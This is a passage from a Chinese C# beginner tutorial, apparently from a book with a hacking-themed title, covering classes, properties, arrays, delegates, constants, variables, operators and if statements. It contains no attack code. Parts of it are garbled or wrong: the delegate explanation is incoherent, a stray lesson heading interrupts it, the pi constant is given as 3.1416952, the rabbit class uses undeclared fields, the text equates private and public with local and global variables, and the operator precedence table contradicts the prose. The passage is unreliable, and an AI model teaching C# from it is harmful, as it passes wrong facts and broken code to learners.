类是面向对象编程的基础，C# 就是一门纯粹的面向对象的语言，所以学习 C# 语言，一定要掌握 C# 语言中类的特点。本章结合 C# 的开发工具 Visual Studio 2005，学习如何在 C# 中定义和使用类。本书的目的不是教大家成为程序员，对于类的一些高级特性，如继承、重载等，本书不做详细介绍。

类是面向对象开发的基础，是用来定义一组相似对象的集合，如动物是一个大类，而兔子是这个大类中的对象。

一个类在使用之前，必须已经声明过。声明是让程序知道有这么一个类存在，C# 中用“class”关键字来声明类，声明类的语法如下所示：

```csharp
class Class1            // 声明类
{
    public Class1()     // 定义类的构造函数
    {
    }
}
```

###### 构造函数

`public Class1()` 是 Class1 类的构造函数。构造函数是定义类时必须创建的函数，其具有与类相同的名称，通常初始化新类对象的数据成员。构造函数还可以带参数。

## 精通C#黑客注入编程

我们创建一个新的控制台应用程序，命名为“class_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;

namespace class_test
{
    class pois0n
    {
        public pois0n()
        {
            Console.WriteLine("pois0n");
        }
    }

    class Program
    {
        static void Main(string[] args)
        {
            pois0n test = new pois0n();
        }
    }
}
```



按“Ctrl+F5”编译运行，运行效果如图17所示。首先定义一个 pois0n 类，然后在 Main 函数中使用 new 运算符来实例化 pois0n 类。在为新对象分配内存之后，new 运算符立即调用 pois0n 类的构造函数，显示出“pois0n”。

###### 静态特征

静态特征通常被称为属性，用来描述类的一些静态特性。以动物为例，兔子具备一些属性：颜色、体重等。

```csharp
class rabbit
{
    // 定义构造函数
    public rabbit()
    {
    }

    // 定义兔子的颜色属性
    public string Color
    {
        get { return _color; }
        set { _color = value; }
    }

    // 兔子的体重
    public int rabbitWeight
    {
        get { return _weight; }
        set { _weight = value; }
    }
}
```

上述属性中，使用“set{}”来设置具体的某个属性，如“_color = value”代表将当前对象的颜色设置为用户指定的颜色。“value”是固定关键字，表示用户为此属性设置的值。“get{}”用来获取对象的某个属性。如果一个属性只有 get 语句而没有 set 语句，则说明此属性是只读的，即不允许在程序运行时修改这个属性的值。每个属性前面都要求定义该属性的类型，如颜色是字符串 `string` 类型，而年龄是数值型 `int` 的。

###### 类的行为

也被称为方法，就是完成某个特殊功能的函数。

```csharp
// 定义一个兔子吃东西的方法，每吃一次体重就增加 1
public int prey()
{
    // 每吃一次体重就加 1
    this.rabbitWeight++;
    // 返回兔子吃完后的体重
    return this.rabbitWeight;
}
```

在类的方法中调用当前类的对象时，使用 `this` 关键字表示类。

###### 类实例

前面创建了类，设置了类的属性和方法。创建类的实例，就是将一个抽象类具体化。如前面创建的兔子类，这个类没有具体指某一个兔子，兔子类创建一个实例，就是具体化到某个兔子。

```csharp
rabbit firstRabbit = new rabbit();   // 创建类实例
firstRabbit.Color = "white";         // 设置对象颜色
firstRabbit.rabbitWeight = 3;        // 设置对象的体重
```

上面的代码创建了兔子这个类的一个具体实例，并设置了兔子的属性。

```csharp
int weight = firstRabbit.prey();   // 吃
```

上面的代码中，因为 `prey` 方法会返回数值类型，在调用此方法时，返回值被存储在 weight 变量中。

###### 析构函数

析构函数和构造函数正好相反，在释放类时执行（结束时）。下面的代码演示了 C# 中析构函数的定义规范。

```csharp
class poisOn
{
    ~poisOn()
    {
        Console.Write("计算完成，释放对象完毕");
    }
}
```

通过“~”来定义析构函数，函数名与类名相同，函数内写明释放类对象时要进行的清理操作。这里输出一句话“计算完成，释放对象完毕”。因为 .NET 2.0 框架提供自动清理对象资源的功能，析构函数在 C# 2.0 中的应用很少。

###### object 类

object 类是所有其它类型的基类，C# 中的所有类型都直接或间接地从 object 类中继承。对一个 object 的变量可以赋予任何类型的值。对 object 类型的变量声明采用 object 关键字，这个关键字是在 .NET 框架的 System 命名空间中定义的。

我们创建一个新的控制台应用程序，命名为“object_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace object_test
{
    class Program
    {
        static void Main(string[] args)
        {
            object firstObject;
            int x = 25;
            firstObject = x;
            Console.WriteLine(firstObject);

            firstObject = 'a';
            Console.WriteLine(firstObject);
        }
    }
}
```



图18 创建 object 类

按“Ctrl+F5”编译运行，运行效果如图18所示。

###### string 类

C# 定义了一个基本的类 string，专门用于对字符串的操作，string 类是在 .NET 框架命名空间 System 中定义的。字符串在现实中应用非常广泛，在类的定义中封装了许多内部操作，我们只要简单地加以利用就可以了。例如可以用加号“+”合并两个字符串，采用下标从字符串中获取字符等。

我们创建一个新的控制台应用程序，命名为“string_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace string_test
{
    class Program
    {
        static void Main(string[] args)
        {
            string String1 = "user";
            string String2 = "name";
            string String3 = String1 + String2;
            char c = String3[2];
            Console.WriteLine(String3);
            Console.WriteLine(c);
        }
    }
}
```



图19 string类例子

按“Ctrl+F5”编译运行，运行效果如图19所示。

##### 数组

C# 数组从零开始建立索引，即数组索引从零开始。C# 中数组的工作方式与在大多数其他流行语言中的工作方式类似，但还有一些差异应引起注意。声明数组时，方括号（[]）必须跟在类型后面，而不是标识符后面。

```csharp
int[] table;  // 而不是 int table[];
```

数组的大小不是其类型的一部分，而在 C 语言中它却是数组类型的一部分。可以声明一个数组，并向它分配 int 对象的任意数组，而不管数组长度如何。

```csharp
int[] numbers;           // 定义一个数组不指定数组大小
numbers = new int[10];   // 包含10个元素
numbers = new int[20];   // 包含20个元素
```

###### 声明数组

C# 支持一维数组、多维数组，下面的示例展示如何声明不同类型的数组。

- 一维数组：

```csharp
int[] numbers;
```

- 多维数组：

```csharp
string[,] names;
```

声明数组（如上所示）并不实际创建它们。在 C# 中，声明数组后需要进行实例化。

- 一维数组：

```csharp
int[] numbers = new int[5];
```

- 多维数组：

```csharp
string[,] names = new string[5,4];
```

###### 初始化数组

C# 通过将初始值括在大括号（{}）内，为在声明时初始化数组提供了简单而直接了当的方法。如果在声明时没有初始化数组，则数组成员将自动初始化为该数组类型的默认值。另外，如果将数组声明为某类型的字段，则当实例化该类型时它将被设置为默认值 null。

###### 一维数组

```csharp
int[] numbers = new int[5] { 1, 2, 3, 4, 5 };
string[] names = new string[3] { "Matt", "Joanne", "Robert" };
```

可省略数组的大小，如下所示：

```csharp
int[] numbers = new int[] { 1, 2, 3, 4, 5 };
string[] names = new string[] { "Matt", "Joanne", "Robert" };
```

###### 多维数组

```csharp
int[,] numbers = new int[3, 2] { {1, 2}, {3, 4}, {5, 6} };
string[,] siblings = new string[2, 2] { {"Mike", "Amy"}, {"Mary", "Albert"} };
```

可省略数组的大小，如下所示：

```csharp
int[,] numbers = new int[,] { {1, 2}, {3, 4}, {5, 6} };
string[,] siblings = new string[,] { {"Mike", "Amy"}, {"Mary", "Albert"} };
```

###### 访问数组成员

访问数组成员可以直接进行。下面的代码创建一个名为 numbers 的数组，然后向该数组的第五个元素赋以 5：

```csharp
int[] numbers = {10, 9, 8, 7, 6, 5, 4, 3, 2, 1, 0};
numbers[4] = 5;
```

下面的代码声明一个多维数组，并向位于 [1, 1] 的成员赋以 5：

```csharp
int[,] numbers = { {1, 2}, {3, 4}, {5, 6}, {7, 8}, {9, 10} };
numbers[1, 1] = 5;
```

我们创建一个新的控制台应用程序，命名为“array_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace array_test
{
    class Program
    {
        static void Main(string[] args)
        {
            // 声明一维数组，没有初始化，等于 null
            int[] intArray1;
            // 初始化已声明的一维数组
            intArray1 = new int[3] { 1, 2, 3 };

            // 声明一维数组，同时初始化
            int[] intArray2 = new int[3] { 1, 2, 3 };
            int[] intArray3 = new int[] { 4, 3, 2, 1 };
            int[] intArray4 = { 1, 2, 3, 4 };

            string[] strArray1 = new string[] { "One", "Two", "Three" };
            string[] strArray2 = { "This", "is", "an", "string", "Array" };
            // 通过数组索引（下标）对元素访问
            Console.WriteLine(intArray2[1]);
            Console.WriteLine(intArray2[2]);
            Console.WriteLine(intArray3[2]);
            Console.WriteLine(intArray3[3]);
            Console.WriteLine(intArray4[2]);
            Console.WriteLine(strArray1[2]);
            Console.WriteLine(strArray2[2]);

            // 声明二维数组，没有初始化
            short[,] sArray1;
            // 初始化已声明的二维数组
            sArray1 = new short[2, 2] { { 1, 1 }, { 2, 2 } };

            // 声明二维数组，同时初始化
            short[,] sArray2 = new short[,] { { 1, 2 }, { 3, 4 }, { 5, 6 } };
            short[,] sArray3 = { { 1, 1, 1 }, { 2, 2, 2 } };
            // 通过数组索引（下标），对元素访问
            Console.WriteLine(sArray1[1,1]);
            Console.WriteLine(sArray2[1,1]);
            Console.WriteLine(sArray3[1,1]);
        }
    }
}
```

按“Ctrl+F5”键运行这个实例，如图20所示。



图20 数组程序示例

委托 delegate 在 C# 语言中采用了格式定义。你可从定义委托声明开始：它是一个函数指针。简要地可这样描述：委托是一个函数指针；进一步可表述为：定义了哪些函数可以被某个函数变量调用。

```csharp
int i = int.Parse("99");
```

把 99 作为参数传给 `Parse()` 函数。仅有其中某个函数执行失败并不意味着另一个函数就执行，而是要求另一个函数执行。该组比较灵活。函数传递给函数操作参数时，需要使用委托。在 C# 中使用委托时，需要密切关联：首先定义接口分类，对接该接口，定义函数及调用函数。

## 编程18课 程序输入输出

读程序写结果（即所求运算的函数），然后可键入创建该委托的一个实例。定义委托的语法如下：

```csharp
delegate void VoidOperation(int x);
```

定义了一个委托 `VoidOperation`，并指定该委托的每个实例包含的函数，必须带有一个 `int` 参数，并返回 `void`。

```csharp
delegate double TwoLongsOp(long first, long second);
```

定义了一个委托 `TwoLongsOp`，该委托代表的函数有两个 `long` 型参数，返回类型为 `double`。

```csharp
delegate string GetAString();
```

定义好委托后，就可以创建它的实例。定义委托的实例，必须将函数作为参数传递给实例构造函数。例如，实例化委托变量的语法如下：

```csharp
delegate int MyDelegate(); // 声明一个委托
MyDelegate d = new MyDelegate(funcTest); // 将委托指向函数 funcTest
d(); // 调用函数 funcTest
```

我们创建一个新的控制台应用程序，命名为“delegate_test”，代码如下：

### 范例1

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace delegate_test
{
    class Program
    {
        // 定义一个委托 GetVoid，将兼容 GetVoid 委托的函数都可以赋值给委托对象，并返回 void
        public delegate void GetVoid();

        // 定义一个委托 GetAString，委托代表函数带有一个 string 类型参数，返回一个 string
        public delegate string GetAString(string stringTest);

        // 定义一个函数不包含参数，并返回 void
        public static void deVoidTest()
        {
            Console.WriteLine("i'm function deVoidTest");
        }

        // 定义一个函数带有一个 string 类型参数，返回一个 string
        public static string deStringTest(string test)
        {
            Console.WriteLine(test);
            return test;
        }

        static void Main(string[] args)
        {
            // 声明一个 GetVoid 实例，将委托指向函数 deVoidTest
            GetVoid deleGetVoid = new GetVoid(deVoidTest);
            // 调用函数 deVoidTest
            deleGetVoid();

            // 声明一个 GetAString 实例，将委托指向函数 deStringTest
            GetAString deleGetString = new GetAString(deStringTest);
            // 调用函数 deStringTest
            deleGetString("run function deStringTest");
        }
    }
}
```

按“Ctrl+F5”编译运行，运行效果如图21所示。



图21 委托操作实例

#### 3.3 变量和常量

##### 3.3.1 常量

常量通常用来保存一个固定值，如圆周率。在程序中，一个固定的值在程序开始时可以将其定义为一个常量。常量的定义语法如下所示，其中“const”是定义常量的关键字，同时还要将变量名大写。

```csharp
const 数据类型 变量名 = 一个固定的值;
```

我们创建一个新的控制台应用程序，命名为“const_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace const_test
{
    class Program
    {
        const double PAI = 3.1416952;   // 定义圆周率常量
        static void Main(string[] args)
        {
            double r = 2.3;             // 定义圆的半径
            double area = PAI * r * r;  // 计算圆的面积
            Console.WriteLine("圆的面积为：{0}", area); // 输出结果
        }
    }
}
```

上面的实例是一个常量的定义和使用过程，是求一个指定半径圆的面积。按“Ctrl+F5”编译运行，运行效果如图22所示。



图22 常量的定义和使用过程

##### 3.3.2 变量

变量的使用比常量要复杂得多，包括固定的数据类型，还有专门的作用域等。声明变量时，必须指定变量的类型。使用变量的一条重要原则是，变量必须先定义后使用。变量可以在定义时被赋值，也可以在定义时不被赋值。

变量命名规则有：变量名必须以字母开头，变量名只能由字母、数字和下划线组成，而不能包含空格、标点符号、运算符等其他符号，变量名不能与 C# 中的关键字名称相同，变量名不能与 C# 中的库函数名称相同。如 sum、_S，都是合法的变量名，而 int、2A 等都是非法变量名。

```csharp
int x, y;   // 定义变量，可同时定义多个
int z = 0;  // 定义变量，可指定变量的初始值
```

##### 变量的作用域

作用域就是指变量的有效期，一般分为局部变量和全局变量。局部变量是指在某一个阶段内此变量有效，而此阶段完成后，变量就被释放。一般使用“private”来声明，声明语法如下所示：

```csharp
private 数据类型 变量名;
```

全局变量是指变量在程序的运行期间都有效，当程序结束时，变量才会被释放。全局变量使用“public”来声明，声明语法如下所示：

```csharp
public 数据类型 变量名;
```

如果在声明变量时，没有指定其作用域，默认是在本过程内有效。

#### 3.4 运算符

##### 3.4.1 算术运算符

算术运算符在数学运算中常见。在 C# 中，用“+”、“-”、“*”、“/”表示。

```csharp
int x, y;
x = 25;      // 定义变量初始值
y = 5;       // 定义变量初始值
Console.WriteLine("两个数的和: {0}", x + y); // 输出和
Console.WriteLine("两个数的差: {0}", x - y); // 输出差
Console.WriteLine("两个数的积: {0}", x * y); // 输出积
Console.WriteLine("两个数的商: {0}", x / y); // 输出商
```

##### 3.4.2 字符串运算符

字符串运算符用在字符串和字符的处理上。在 C# 中，字符串运算最常用的运算符是“+”和“[]”。“+”用来连接两个字符串，“[]”用查找字符串数组中的值。

```csharp
string str1 = "Hello ";
string str2 = "pois0n";
string[] strArray = { "this", "is", "test" };
Console.WriteLine("用 + 连接字符串的结果：{0}", str1 + str2);
Console.WriteLine("数组中的第一个值：{0}", strArray[0]);
Console.WriteLine("输出数组中的第二个值：{0}", strArray[1]);
Console.WriteLine("输出数组中的第三个值：{0}", strArray[2]);
```

定义字符串数组使用“{}”实现，使用“[]”索引数组，从 0 开始。

##### 3.4.3 赋值运算符

赋值运算符就是常见的“=”，其可以为数值型、枚举、类等所有的类型赋值。使用“=”的语法：变量 = 值；。其中“=”左边一般为变量的名称，“=”右边为固定的值。一种赋值运算符可计算后再赋值，如“+=”或“-=”。

```csharp
int x = 10;                    // 数值型赋值
string str = "北京奥运会";       // 字符型赋值
StringBuilder str1 = new StringBuilder(); // 类赋值
int[] arr = { 1, 2, 3, 4 };    // 数组赋值
x += arr[1];                   // 赋值运算后再赋值
```

##### 3.4.4 逻辑运算符

逻辑运算就是常说的“是否”操作。逻辑运算符一般包括“与”、“或”、“非”。

与：C# 中的符号为“&&”，表示必须满足两个条件。语法为“表达式1 && 表达式2”。只有表达式1和表达式2同时为“true”，计算结果才为“true”，否则为“false”。

或：C# 中的符号为“||”，表示满足两个条件中的任意一个即可。语法为“表达式1 || 表达式2”。当表达式1和表达式2任意一个为“true”，计算结果就为“true”。只有表达式1和表达式2同时为“false”，计算结果才为“false”。

非：C# 中的符号为“!”，表示取当前表达式结果的相反结果。语法为“!表达式”。如果当前表达式为“true”，则计算结果为“false”。

```csharp
int x = 5;
int y = 5;
if (x == 5 && y == 5) // 与操作
    Console.WriteLine("x 和 y 相等");
else
    Console.WriteLine("x 和 y 不相等");
y = 50;
if (x == 50 || y == 50) // 或操作
    Console.WriteLine("x 和 y 中有一个为50");
if (!(y == 5))          // 非操作
    Console.WriteLine("y 不等于 5");
```

##### 3.4.5 其他运算符

除了前面介绍的运算符外，C# 还有一些常用的运算符，下面列出这些运算符的说明和语法。

自增和自减运算符：一般用于数值型变量，用来增大或减少变量当前的值，使用语法为“变量++；”或“变量--；”。

```csharp
int x = 5;
int y = 5;
x++;
y--;
```

比较运算符：一般用于条件表达式中，用来判断表达式是否符合条件，主要包含“==”、“!=”和“<”等运算符。

```csharp
int x = 5;
int y = 5;
if (x == y)
    Console.WriteLine("x 和 y 相等");
```

条件运算符：先用一个“?”判断表达式是否满足条件，然后用“:”间隔两个表达式，如果满足条件就执行“:”左边的表达式，否则执行右边的表达式。是 C# 中唯一的一个三元运算符。使用语法为“条件 ? 表达式1 : 表达式2”。

##### 3.4.6 运算符的优先级

运算符并不是按照表达式的书写顺序来依次执行的，在 C# 中，不同的运算符具备不同的运算顺序。算术运算符的优先级高于比较运算符，比较运算符的优先级高于逻辑运算符，逻辑运算符的优先级高于条件运算符，条件运算符的优先级高于赋值运算符。有些同类运算符优先级也有高低之分，在算术运算符中，乘、除、求余的优先级高于加、减；在比较运算符中，小于、大于、小于等于、大于等于的优先级高于相等与不等；逻辑运算符的优先级按从高到低排列为非、与、或。我们可以使用圆括号明确运算顺序，来强制改变表达式的执行顺序。

下表列举了 C# 中运算符的优先级，其中最上面的运算符优先级最高。

| 运算符类型 | 运算符符号 |
|---|---|
| 算术运算符 | +、-、*、/ |
| 逻辑运算符 | &&、\|\|、! |
| 字符串连接运算符 | + |
| 自增和自减 | ++、-- |
| 比较运算符 | ==、!=、<、>、<=、>= |
| 赋值运算符 | =、+=、-= |

#### 3.5 流程控制

##### 3.5.1 使用 if 语句实现分支

if 语句根据条件判断代码该执行哪个分支，可提供两个或两个以上的分支供代码选择，但每次只会执行一个分支。最常用的是两个分支的 if 语句，语法如下所示：

```csharp
if (条件)
{ 代码... }
else
{ 代码... }
```

如果需要判断多个条件时，也可以使用更多的分支，语法如下所示：

```csharp
if (条件)
{ 代码... }
else if (条件)
{ 代码... }
else if (条件)
{ 代码... }
else
{ 代码... }
```

我们创建一个新的控制台应用程序，命名为“if_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace if_test
{
    class Program
    {
        static void Main(string[] args)
        {
            int i = 20;            // 初始化变量

            if (i > 20)
            {
                Console.WriteLine("当前变量的值大于20");
            }
            else if (i == 20)
            {
                Console.WriteLine("当前变量的值等于20");
            }
            else if (i < 20)
            {
                Console.WriteLine("当前变量的值小于20");
            }
            else
            {
                Console.WriteLine("没有找到当前变量的值");
            }
        }
    }
}
```

按“Ctrl+F5”编译运行，运行效果如图23所示。

